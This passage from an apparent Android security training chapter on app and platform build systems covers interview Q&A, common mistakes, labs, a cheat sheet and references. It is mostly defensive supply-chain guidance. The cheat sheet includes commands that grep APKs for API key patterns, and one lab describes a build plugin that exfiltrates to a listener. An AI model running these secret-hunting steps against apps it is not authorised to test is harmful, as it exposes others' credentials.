rebuild, which is the standard workflow for platform vulnerability research. The corollary is that an
`out/` directory produced by someone else is untrusted, because it may contain files no source in the
tree produced.

### Senior

**Q: Walk me through the complete app build pipeline, naming the tool at each stage.**
Kotlin sources are compiled by `kotlinc` and Java by `javac` — Kotlin first, because Java may reference
Kotlin output through generated stubs; annotation processors (`kapt`/KSP) may generate more sources.
In parallel and *before* `javac`, `aapt2 compile` converts each resource file to a `.flat`
intermediate and `aapt2 link` merges all of them with every library's resources to produce
`resources.arsc`, the binary manifest and `R.java`/`R.jar`, plus `aapt_rules.txt` keep rules. Before
that, the manifest merger has combined the main, flavour, build-type and every library manifest, with
placeholder substitution. The resulting `.class` files are desugared for older API levels, then either
D8 translates them to DEX or R8 shrinks, optimises, obfuscates and translates in one pass, emitting
`mapping.txt`. Native code is built independently through CMake or `ndk-build`, once per ABI, then
stripped. Everything is ZIPped, `zipalign`ed, and signed by `apksigner` with the enabled scheme
versions. For the bundle path, `bundletool` produces an `.aab` instead, and Play generates and signs the
per-device splits.

**Q: Why is a Gradle build a supply-chain risk in a way that a Soong build is not?**
`Android.bp` is declarative data: no conditionals, no loops, no shell, no environment access. Soong's
only escape hatch is `genrule`, whose commands are explicit strings you can enumerate with one grep.
A `build.gradle` is a Groovy or Kotlin *program* that Gradle executes to discover the task graph, with
no sandbox, at the privilege of whoever ran it — and it runs during `./gradlew tasks`, `--dry-run`, and
plain IDE project import. Applied plugins and `buildSrc` execute before anything is compiled, at a
moment when the CI runner holds the signing key and the store credentials. The blast radius of a
malicious Gradle plugin is the release channel, not one build.

**Q: Explain dependency confusion in Gradle specifically, and give the exact fix.**
Gradle queries declared repositories in order and takes the first that has the module; version conflict
resolution then prefers the highest version. If a build declares a public repository alongside an
internal one and does not constrain which coordinates each may answer for, an attacker who publishes an
internal coordinate publicly — or publishes a higher version of it — can have their artefact resolved.
The fix is repository **content filtering**: `content { includeGroupByRegex(...) }` on the internal
repository so it is the only source for internal groups, `excludeGroupByRegex(...)` on public ones so
they are never asked, `repositoriesMode.set(RepositoriesMode.FAIL_ON_PROJECT_REPOS)` so no module can
add its own, and `gradle/verification-metadata.xml` for checksum pinning on top.

**Q: The client's `proguard-rules.pro` looks sensible but nothing in the APK is obfuscated. Where do you look?**
`app/build/outputs/mapping/release/configuration.txt`. It is the *merged* R8 configuration, including
every AAR's `consumer-rules.pro` / `proguard.txt`, which are applied silently and are invisible in the
application's own repository. A single dependency shipping `-keep class ** { *; }` or `-dontobfuscate`
disables obfuscation for the entire application. Grep that file first; then confirm with `seeds.txt`
(what was kept) and `usage.txt` (what was removed).

**Q: What changes for you as a tester when an app ships as an AAB rather than an APK?**
Three things. First, the certificate on the device is the Play **app signing** key, not the developer's
upload key, so a mismatch against a keystore the developer shows you is expected rather than
suspicious. Second, the installed application is a *set* of APKs — base plus ABI, density and language
splits, plus any dynamic feature downloaded later — so `adb shell pm path` must be used to enumerate and
pull all of them; a base-only analysis will wrongly conclude there is no native code. Third, dynamic
feature modules mean code can arrive after install, so the app must be exercised fully before any
conclusion about its surface is sound.

### Staff Engineer

**Q: Design a build pipeline for a banking app that resists a compromised developer workstation.**
Expect a layered answer. Signing keys never exist on developer machines: builds on workstations are
unsigned or debug-signed only, and release signing happens in a separate, minimal-permission CI job
whose only input is an artefact and whose credentials come from an HSM-backed secret store. Play App
Signing holds the app signing key so the CI key is a resettable upload key. Dependencies are pinned
with `gradle/verification-metadata.xml` including PGP signatures, resolved from an internal repository
with an ingest review, with content filtering so public repositories cannot answer for internal
coordinates. `buildSrc`/`build-logic` is reviewed as production code with mandatory two-person approval.
The build runs in an ephemeral, network-restricted container with an egress allow-list. Builds are made
reproducible and independently rebuilt on separate infrastructure, with a byte-comparison gate — this is
the only control that detects a trojanised artefact after the fact. Release-invariant gates (§9.3) fail
the build on an unreviewed exported component, permission, or debuggable flag. Finally, the honest
part: none of this defends against a compromised *source* commit that a reviewer approves, so the
control set must include code review with signed commits and branch protection, and the answer should
say so explicitly rather than implying the pipeline is sufficient on its own.

**Q: A vendor asks you to accept `minifyEnabled true` as the mitigation for a hardcoded API key finding. Argue the position.**
Reject it, and explain the mechanism rather than asserting. Obfuscation renames identifiers; it never
alters string contents, and a `buildConfigField` constant is inlined by `javac` before R8 ever sees it,
so it exists in the DEX string pool regardless of R8 settings. Obfuscation is a cost multiplier that
raises the time to *understand* an application, which has genuine value against opportunistic attackers
and mass repackaging and no value at all against a motivated analyst with a day. It is therefore a
MASVS-RESILIENCE hardening measure, not a confidentiality control, and it cannot mitigate a
data-exposure finding. The mitigation for a shipped credential is to stop shipping it: proxy the
privileged call through the vendor's backend, or — if the key is genuinely a public identifier such as a
Maps or Firebase Web API key — demonstrate the server-side restrictions and reclassify the finding
accordingly.

**Q: How would you detect that a third-party SDK update introduced a new exported component, across fifty apps, continuously?**
Make the merged manifest a build output that is *diffed*, not read. Each release build emits its merged
manifest and merger report into an artefact store keyed by app and version. A gate task compares the
exported-component and permission sets against a checked-in allow-list, failing the build on any
addition, with the SDK's Maven coordinate in the error message (the merger report supplies it). At
fleet scale, a scheduled job pulls the reports for all fifty apps, aggregates additions by dependency
coordinate, and alerts when a single dependency version bump introduces surface across multiple apps —
which is the signal that distinguishes a supply-chain event from one team's mistake. The organisational
half matters as much: the allow-list lives next to the code so the change and its approval appear in
the same pull request, which is what makes it survive contact with delivery pressure.

### Principal Engineer

**Q: Soong deliberately chose a non-Turing-complete build language. Evaluate that decision.**
A strong answer treats it as a trade of expressiveness for analysability and speed. The costs are real:
anything genuinely conditional must be expressed through structured properties, `soong_config_module_type`
or a `genrule`, and teams accustomed to Make find this restrictive; the migration cost across a tree of
that size was enormous and is still incomplete, with product and board configuration still in Make.
The benefits are large and compound. Parsing becomes cacheable, which collapsed AOSP's null-build time
from minutes to seconds — a change that alters how engineers work. The module graph becomes a static
object, which enables correct incrementality, remote execution, and machine rewriting of build files.
And, decisively for security, the build description becomes *auditable by grep*: "which modules link
against `libcrypto`?" and "which apps are signed with the platform key?" have complete, mechanically
verifiable answers, which is not true of a Makefile that can compute a library name at build
time. The residual `genrule` escape hatch is the honest caveat, and the right conclusion is that the
correct design is a declarative core with a small, explicitly enumerable set of escape hatches — which
is also the argument for Starlark in the Bazel migration, sitting between Blueprint's pure data and
Gradle's arbitrary JVM code.

**Q: "The build is part of the attack surface." Develop that into a security architecture position.**
The claim is that the artefact's integrity can never exceed the integrity of the process that produced
it, and that this process is systematically under-defended relative to its privilege. A build machine
holds the release signing key, the store credentials, the source of every product, and often cloud
deployment rights, while executing code from dozens of remote parties chosen by transitive resolution
that nobody reviewed. The architectural consequences follow in order. First, *isolate privilege from
execution*: the environment that runs untrusted build logic must not hold signing material, so signing
becomes a separate job over an artefact. Second, *pin what you consume*: exact versions and cryptographic
verification, because "latest" means "whatever a remote party decides today". Third, *constrain
resolution*: content filtering, so a public repository is never asked about a private name. Fourth, and
most important, *make the output verifiable independently of the process*: reproducible builds plus an
independent rebuild are the only control that detects a compromise of the build itself, because every
other control is enforced by the very system under attack. The framing that ties it together is that
signing answers *who* built an artefact and reproducibility answers *what* they built — and a
supply-chain programme that has only the first has a signature on an unknown payload. A principal-level
answer also names the limit: reproducibility does not defend against a malicious change that is present
in the reviewed source, so build integrity is necessary and not sufficient, and the remaining risk is
managed by code review, signed commits, and least privilege — not by more build tooling.

**Q: Should a security team own the build configuration?**
The productive answer rejects the ownership framing and proposes an interface instead. Security teams
cannot own build files at scale — they lack the context, they become a delivery bottleneck, and
ownership decays the moment a deadline appears. What works is encoding security requirements as
*executable invariants* the build enforces itself: a convention plugin that fails a release build that
is debuggable, that has an unreviewed exported component or permission, that resolves a dependency
outside the verification metadata, or that ships without the required signing scheme set. The allow-list
lives in the repository, so a change to it appears in a pull request with a named reviewer, which turns
a periodic manual audit into a continuous, attributable control. The security team then owns the
*invariants and the plugin*, and the product teams own the *build files* — which is the correct division,
because it puts the security requirement in the same place and the same review cycle as the change that
would violate it. The honest limitation is that this only covers properties expressible as a check on a
build artefact, so it complements rather than replaces review of the code itself.

---

## 11. Common Mistakes

### Developer mistakes

- Putting credentials in `buildConfigField`, `resValue`, `manifestPlaceholders`, `gradle.properties` or
  `assets/` and believing obfuscation hides them.
- Setting `isDebuggable = true` on the release build type during an incident and never removing it.
- Writing `implementation` where `debugImplementation` was meant, shipping Flipper, Chucker, Stetho,
  LeakCanary or a trust-all `TrustManager` to production.
- Adding `-keep class ** { *; }` to make R8 stop breaking something, thereby disabling shrinking and
  obfuscation entirely, and never revisiting it.
- Committing a keystore and its passwords, then "fixing" it with `git rm` while the object stays in
  history forever.
- Never reading the merged manifest, and therefore never knowing which components, permissions and
  providers their dependencies added.
- Using version ranges, `latest.release`, `-SNAPSHOT` or JitPack branch references, so the code they
  ship changes without any commit.
- Declaring public repositories alongside internal coordinates with no content filtering.
- Treating `buildSrc/` and `build-logic/` as "just build scripts" and excluding them from code review.
- Disabling `lint { abortOnError }` because lint failed once, silently discarding real findings
  including exported components and trust-all managers.
- Enabling `android:usesCleartextTraffic="true"` in `src/main` for local testing.
- Assuming `compileOnly` dependencies are present at runtime.
- Keeping `android.enableJetifier=true` for years after the reason for it disappeared.
- Believing `applicationIdSuffix = ".debug"` makes a debug build safe to distribute.

### Pentester mistakes

- **Analysing `base.apk` only** when the app was installed from an AAB, and concluding it has no native
  code or fewer components than it does. Always `adb shell pm path` and pull the whole split set.
- Reading `app/src/main/AndroidManifest.xml` and calling it the component surface. It is not; the merged
  manifest is.
- Reporting every exported component as a finding without reaching it and demonstrating impact, which
  buries the two that matter.
- Rating a Firebase Web API key or a Maps API key as a critical hardcoded secret. Verify what the key
  authorises first; the finding for a Maps key is usually "unrestricted", which is a billing issue.
- Reporting a dependency version as vulnerable with no reachability argument and no confirmation that
  the library is even in the APK — it may have been `compileOnly`, or shaded.
- Running `./gradlew` on an untrusted project, or opening it in Android Studio, which is the same thing.
- Believing `--dry-run` is safe. It skips execution, not configuration; the arbitrary code still runs.
- Running `./gradlew --scan` on a client project without permission, uploading their build description
  to a third party and producing an unauthenticated public URL.
- Analysing an APK downloaded from a mirror site and reporting findings against the client's production
  app. Establish provenance from a device, and record certificate digests.
- Skipping `configuration.txt` and concluding obfuscation is absent when a library's consumer rules
  disabled it — a materially different finding with a different owner.
- Ignoring `resources.arsc`, where `resValue` and Google Services output land and where DEX string
  searches never look.
- Proving dependency confusion by actually publishing to a public repository. Do not.
- Forgetting to check `git log --all` for secrets that were removed from `HEAD`.

### Reverse engineer mistakes

- Inferring "release build" from obfuscated names. `minifyEnabled` is independent of the build type;
  use the signing certificate and the `debuggable` flag.
- Concluding a value is absent because `BuildConfig` is missing. R8 can remove the class after `javac`
  inlined every constant; search for the values, not the class.
- Assuming an exported component in the manifest exists in the app's source. Check the merger report or
  the class's package: a `com.vendor.*` component in a `com.client.*` app came from an SDK.
- Expecting `.so` files to be extracted into the app's native library directory. With modern packaging
  they are `mmap`ed from inside the APK; check `/proc/<pid>/maps`.
- Treating the universal APK from `bundletool --mode=universal` as what users run. It is convenient for
  static analysis and is not the real artefact; reproduce any split-specific finding against the split.
- Missing dynamic feature modules entirely because the feature was never triggered.
- Ignoring `META-INF/*.version`, `app-metadata.properties` and `kotlin-tooling-metadata.json`, which
  hand over the dependency inventory and toolchain versions for free.
- Assuming R8 renamed a class with a `native` method. It did not — the default keep rule preserves it,
  which is why the crypto and licensing code is always the readable part.

---

## 12. Hands-on Labs

Full lab material lives in [`labs/`](labs/).

| Lab | Objective | Difficulty |
|---|---|---|
| [Lab 01 — Reading a build file cold](labs/lab-01-reading-build-files.md) | Given an unfamiliar Android project, produce the §5.5 checklist output in under an hour: repositories, wrapper integrity, hardening, secrets, dependency inventory | Beginner |
| [Lab 02 — Manifest merger archaeology](labs/lab-02-manifest-merger-archaeology.md) | Build a project with a deliberately hostile local SDK, diff the source manifest against the merged one, reach every injected component with `am`, then remove them with `tools:` markers and prove the fix | Intermediate |
| [Lab 03 — Supply-chain simulation](labs/lab-03-supply-chain-simulation.md) | Stand up a local Maven repository, demonstrate repository-order resolution, write a `buildSrc` plugin that exfiltrates to a local listener, then close both holes with content filtering and dependency verification | Advanced |
| [Lab 04 — Build a userdebug AOSP image and trace a module](labs/lab-04-platform-build-trace.md) | Configure, build and boot a Cuttlefish image; trace one module from `Android.bp` to the file on the image; patch it and re-flash with `m snod` | Advanced |
| [Lab 05 — CTF: The invisible receiver](labs/lab-05-ctf-invisible-receiver.md) | A signed APK with no source. Recover the flag, which is reachable only through a component the developer never wrote and a value that is not in `classes.dex` | Advanced |

---

## 13. Summary

### Key points

- There are **two unrelated build systems**. The platform build (Soong → Ninja, with Kati bridging
  legacy Make) produces the OS; the app build (Gradle + AGP) produces one APK or AAB.
- `Android.bp` is **declarative data** and therefore auditable by grep. `build.gradle` is a **program**
  that Gradle executes with your full privileges, before anything is compiled. That asymmetry is the
  root of every supply-chain concern in this chapter.
- The app pipeline is: manifest merge → `aapt2 compile`/`link` → `kotlinc`/`javac` → desugar →
  **D8 or R8** → native sub-build → ZIP → `zipalign` → `apksigner`. Every stage records a
  security-relevant decision.
- **The manifest merger is a genuine attack surface.** Any library can add exported components,
  providers, `<queries>` and `<uses-permission>` entries to your app. The merger report names the
  offending Maven coordinate, and `tools:node="remove"` is the fix — but the SDK's code remains.
- **A shipped constant is not a secret.** `buildConfigField` values are inlined by `javac` and live in
  the DEX string pool; `resValue` values live in `resources.arsc`. No R8 setting changes this.
- **`debuggable="true"` in production is a High-to-Critical finding on its own**, because `run-as`
  hands any user the app's entire private data directory with no root.
- Debug artefacts reach production by three distinct routes — wrong variant uploaded, release build type
  misconfigured, or `implementation` instead of `debugImplementation`. Naming which one turns a finding
  into advice.
- **`configuration.txt`, not `proguard-rules.pro`, is the truth about R8.** Library consumer rules are
  merged silently and one of them can disable obfuscation app-wide.
- With **Play App Signing**, the certificate on the device is Google's signing of the app key, not the
  developer's upload key. Expect the mismatch.
- An **AAB installs as a split set**. Analysing `base.apk` alone is the single most common way to reach
  a wrong conclusion about an app's surface.
- **Dependency confusion in Gradle is closed by repository content filtering**, plus
  `FAIL_ON_PROJECT_REPOS` and `verification-metadata.xml`. Its absence is a reportable finding with no
  exploitation required.
- **Reproducible builds are the only control that detects a compromised build after the fact.** Signing
  says who built it; reproducibility says what they built.
- On the platform side: build **variant** decides `ro.debuggable`; `certificate: "platform"` decides
  whether an app is inside the platform trust domain; `genrule` is Blueprint's only shell escape;
  `out/.../symbols/` contains unstripped copies of every binary on the device.

### Mind map

The full chapter mind map is in [`mindmap.md`](mindmap.md). Condensed:



### Cheat sheet

The full printable version is [`cheatsheet.md`](cheatsheet.md). Condensed:

| Need | Command |
|---|---|
| Real component surface | `cat app/build/outputs/logs/manifest-merger-release-report.txt` |
| Merged manifest from the APK | `aapt2 dump xmltree app.apk --file AndroidManifest.xml` |
| Exported components | `apktool d app.apk -o out/ && grep -n 'exported="true"' out/AndroidManifest.xml` |
| Debuggable? | `aapt2 dump badging app.apk \| grep application-debuggable` |
| Who signed it | `apksigner verify --verbose --print-certs app.apk` |
| Which AGP built it | `unzip -p app.apk META-INF/com/android/build/gradle/app-metadata.properties` |
| **Real** R8 rules | `cat app/build/outputs/mapping/release/configuration.txt` |
| True dependency graph | `./gradlew :app:dependencies --configuration releaseRuntimeClasspath` |
| Why is this artefact here | `./gradlew :app:dependencyInsight --configuration releaseRuntimeClasspath --dependency <name>` |
| Pin every artefact | `./gradlew --write-verification-metadata sha256,pgp help` |
| Secrets in resources | `aapt2 dump resources app.apk \| grep -iE "key\|token\|secret"` |
| Secrets in DEX | `strings -n 12 classes.dex \| grep -iE "sk_live_\|AKIA\|AIza"` |
| Split set on device | `adb shell pm path <pkg>` |
| AAB → installable APKs | `bundletool build-apks --bundle=a.aab --output=a.apks --mode=universal` |
| Platform: configure | `source build/envsetup.sh && lunch <product>-<release>-<variant>` |
| Platform: build | `m -j$(nproc)` |
| Platform: fast repack | `m snod` |
| Platform: find shell escapes | `grep -rn --include=Android.bp -A5 "genrule" .` |

### Quick revision

- Name the two build systems, their build-file formats, and their engines.
- Which build-file language can execute arbitrary code, and at which Gradle phase?
- Give the app build pipeline from source to signed APK, naming the tool at each stage.
- What is the manifest merger's priority order, and where do libraries sit in it?
- Name four things a library's manifest can add to your app without your knowledge.
- Why does `buildConfigField` produce a value that obfuscation cannot hide?
- What are the three ways debug configuration reaches a production build?
- Which file tells you the R8 rules that were *actually* applied, and why is it not `proguard-rules.pro`?
- Under Play App Signing, whose certificate is on the device?
- Why must `zipalign` run before `apksigner`?
- State the exact Gradle mechanism that closes dependency confusion.
- Why does `--dry-run` not make an untrusted Gradle project safe?
- What does `certificate: "platform"` in an `Android.bp` file mean for the trust model?
- What is in `out/target/product/<device>/symbols/` and why do you want it?
- Which single control detects a trojanised build artefact after the fact?

---

## 14. References

### AOSP source

- `build/make/envsetup.sh` — the definitions of `lunch`, `m`, `mm`, `mma`
- `build/make/core/main.mk`, `base_rules.mk` — the legacy Make core
- `build/make/target/product/` — product definitions and `PRODUCT_PACKAGES`
- `build/make/target/product/security/` — the **public** AOSP test keys (`platform`, `shared`, `media`, `testkey`)
- `build/make/tools/releasetools/sign_target_files_apks.py` — release re-signing
- `build/soong/` — Soong itself; `android/`, `cc/`, `java/`, `genrule/`, `ui/`
- `build/soong/android/visibility.go`, `apex.go` — build-time access control
- `build/soong/cc/sanitize.go`, `cc/config/global.go` — native hardening defaults
- `build/soong/java/app.go` — how an `android_app` becomes a signed APK
- `build/blueprint/` — the Blueprint parser and Ninja writer
- `build/kati/` — the Make-to-Ninja translator
- `build/bazel/` — the Bazel migration and `bp2build`
- `system/sepolicy/` — SELinux policy source and its build rules
- `prebuilts/` — checked-in toolchains: clang, JDK, build tools, SDKs
- Android Code Search — https://cs.android.com/

### Official documentation

- Android Open Source Project — building — https://source.android.com/docs/setup/build/building
- Soong build system — https://source.android.com/docs/setup/build
- Android.bp file format reference — https://source.android.com/docs/setup/reference/androidbp
- Configure your build (Android Developers) — https://developer.android.com/build
- Build variants — https://developer.android.com/build/build-variants
- Merge manifest files — https://developer.android.com/build/manage-manifests
- Add build dependencies — https://developer.android.com/build/dependencies
- Shrink, obfuscate, and optimize your app — https://developer.android.com/build/shrink-code
- Sign your app — https://developer.android.com/studio/publish/app-signing
- Play App Signing — https://support.google.com/googleplay/android-developer/answer/9842756
- Android App Bundle and bundletool — https://developer.android.com/guide/app-bundle
- APK Signature Scheme v2/v3/v4 — https://source.android.com/docs/security/features/apksigning
- Gradle user manual — https://docs.gradle.org/current/userguide/userguide.html
- Gradle dependency verification — https://docs.gradle.org/current/userguide/dependency_verification.html
- Gradle repository content filtering — https://docs.gradle.org/current/userguide/declaring_repositories.html
- Gradle build cache — https://docs.gradle.org/current/userguide/build_cache.html
- Gradle release checksums — https://gradle.org/release-checksums/

### OWASP

- MASVS — https://mas.owasp.org/MASVS/
- MASTG — https://mas.owasp.org/MASTG/
- MASVS-CODE (build settings, dependencies, signing) — https://mas.owasp.org/MASVS/10-MASVS-CODE/
- MASVS-RESILIENCE (obfuscation, integrity) — https://mas.owasp.org/MASVS/11-MASVS-RESILIENCE/
- OWASP Dependency-Check — https://owasp.org/www-project-dependency-check/
- OWASP Software Component Verification Standard — https://owasp.org/www-project-software-component-verification-standard/

### Supply chain

- SLSA (Supply-chain Levels for Software Artifacts) — https://slsa.dev/
- Reproducible Builds — https://reproducible-builds.org/
- Sigstore — https://www.sigstore.dev/
- OSV (Open Source Vulnerabilities database) — https://osv.dev/
- CycloneDX SBOM specification — https://cyclonedx.org/
- Alex Birsan, "Dependency Confusion" — the article that named the class — https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

### Security bulletins and research

- Android Security Bulletins — https://source.android.com/docs/security/bulletin
- Google Play Protect and app signing policy changes — https://android-developers.googleblog.com/
- Android Studio release notes (AGP behaviour changes by version) — https://developer.android.com/build/releases/gradle-plugin

### Related chapters

- [06-Android-Architecture](../06-Android-Architecture/README.md) — the system this build produces
- [07-AOSP](../07-AOSP/README.md) — the source tree the platform build consumes
- [10-APK-Internals](../10-APK-Internals/README.md) — the structure of the artefact this chapter produces
- [12-DEX-Internals](../12-DEX-Internals/README.md) — the bytecode format D8 and R8 emit
- [13-ART](../13-ART/README.md) — dexpreopt, baseline profiles, and what happens to the DEX after install
- [15-Native-Code](../15-Native-Code/README.md) — the `.so` files the native pipeline produces
- [16-JNI](../16-JNI/README.md) — why classes with `native` methods keep their names
- [22-SELinux](../22-SELinux/README.md) — the policy the platform build compiles
- [23-Permissions](../23-Permissions/README.md) — including permissions a library's manifest added
- [26-Intent](../26-Intent/README.md) — reaching injected exported components
- [32-Manifest](../32-Manifest/README.md) — every attribute in the merged manifest
- [40-Obfuscation](../40-Obfuscation/README.md) — what obfuscation does and does not achieve
- [41-ProGuard](../41-ProGuard/README.md) — keep-rule syntax and semantics
- [42-R8](../42-R8/README.md) — shrinking, optimisation and `mapping.txt` in depth
- [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md) — the config the debug source set overrides
- [52-StaticAnalysis](../52-StaticAnalysis/README.md) — the methodology §8 plugs into
- [55-MobSF](../55-MobSF/README.md) — automated build-configuration review and its false positives
- [71-OWASP-Mobile](../71-OWASP-Mobile/README.md) — MASVS/MASTG mapping methodology
